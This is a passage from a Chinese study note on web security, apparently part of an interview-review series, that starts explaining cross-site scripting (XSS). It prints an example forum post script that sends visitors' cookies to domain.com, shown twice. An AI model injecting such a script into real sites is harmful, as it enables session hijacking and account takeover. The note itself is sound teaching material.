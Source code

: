 *   [Java 虚拟机知识点快速复习手册（下）](http://mp.weixin.qq.com/s?__biz=MzU1NTA0NTEwMg==&mid=2247483801&idx=1&sn=97db60faa634ff18e335ba1f0851969c&chksm=fbdb1818ccac910e956fac57c4cd2b6c1906152aece1f5720aaf52f483b48d31b9506c3d34e5&scene=21#wechat_redirect)  
    
*   [阿里巴巴 Java 开发手册阅读笔记](http://mp.weixin.qq.com/s?__biz=MzU1NTA0NTEwMg==&mid=2247483796&idx=1&sn=b06e84f587a61f0f827c038d6e48de0e&chksm=fbdb1815ccac91032530f28473fc219bec68759b3fb54d7b21507238b6478b270f0f78b9d915&scene=21#wechat_redirect)
    
*   [HTTP 应知应会知识点复习手册（上）](http://mp.weixin.qq.com/s?__biz=MzU1NTA0NTEwMg==&mid=2247483812&idx=1&sn=a0f74e7ea7672b53b55ae20706b318ab&chksm=fbdb1825ccac913381547a47beb4acf7f895200d758413e1bfd168c098bbc0f0b1e83f04c60f&scene=21#wechat_redirect)  
    
*   [双非硕士的春招秋招经验总结——对校招，复习以及面试心态的理解](http://mp.weixin.qq.com/s?__biz=MzU1NTA0NTEwMg==&mid=2247483669&idx=1&sn=9d45d0a80c55c2b81611e150b059fb2f&chksm=fbdb1894ccac9182a43949d445accee91afab50f27c11906ae3d3121e24908469424d0726369&scene=21#wechat_redirect)
    
*   ...... 等（请查看全复习手册导航）
    

本文参考
====

本文内容主要参考来自 CyC2018 的 Github 仓库：CS-Notes

有删减，修改，补充额外增加内容

本作品采用知识共享署名 - 非商业性使用 4.0 国际许可协议进行许可。

----- 正文 -----
==============

Web 攻击技术
========

跨站脚本攻击 XSS
----------

还可参考：https://blog.csdn.net/lpjishu/article/details/50917092

### 1. 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>


```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>


```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并**携带了当前作用域的 Cookie**。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。
